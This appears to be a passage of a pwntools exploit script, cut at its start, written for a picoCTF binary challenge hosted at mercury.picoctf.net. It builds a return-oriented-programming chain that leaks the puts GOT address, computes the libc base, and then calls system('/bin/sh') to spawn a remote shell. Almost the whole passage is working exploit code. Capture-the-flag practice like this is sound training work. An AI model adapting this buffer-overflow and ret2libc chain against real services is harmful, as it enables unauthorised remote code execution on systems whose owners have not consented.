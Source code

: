 ```python
    log.info(f"Offset is: {offset}")
    # Cleanup core files
    os.system("rm core.* > /dev/null")
    return offset


def find_libc_base():
    # Build the payload
    payload = flat({
        offset: [
            pop_rdi,
            exe.got.puts,
            exe.plt.puts,
            exe.symbols.do_stuff
        ]
    })

    io.sendlineafter(PROMPT, payload)
    io.recvline()

    # Retrieve GOT puts address
    got_puts = unpack(io.recv()[:6].ljust(8, b'\x00'))
    log.info("Leaked GOT puts address: %#x", got_puts)

    # Subtract puts offset to get libc base
    libc_base = got_puts - libc.symbols.puts
    log.info("Libc base address: %#x", libc_base)
    return libc_base


def get_shell():
    # Prepare for system(/bin/sh) call
    log.info("System address: %#x", libc.symbols.system)
    bin_sh = next(libc.search(b'/bin/sh\x00'))
    log.info("/bin/sh address: %#x", bin_sh)

    # Payload to get shell
    payload = flat({
        offset: [
            pop_rdi,        # Dummy call (stack alignment)
            exe.got.puts,   # Dummy call (stack alignment)
            exe.plt.puts,   # Dummy call (stack alignment)
            pop_rdi,
            bin_sh,
            libc.symbols.system
        ]
    })

    io.sendline(payload)
    io.recvline()
    io.recvline()


offset = find_offset(cyclic(200))

io = remote('mercury.picoctf.net', 24159)

# Stage 1 - Leak puts address to calculate Libc base
libc.address = find_libc_base()

# Stage 2 - Exploit with system(/bin/sh)
get_shell()

```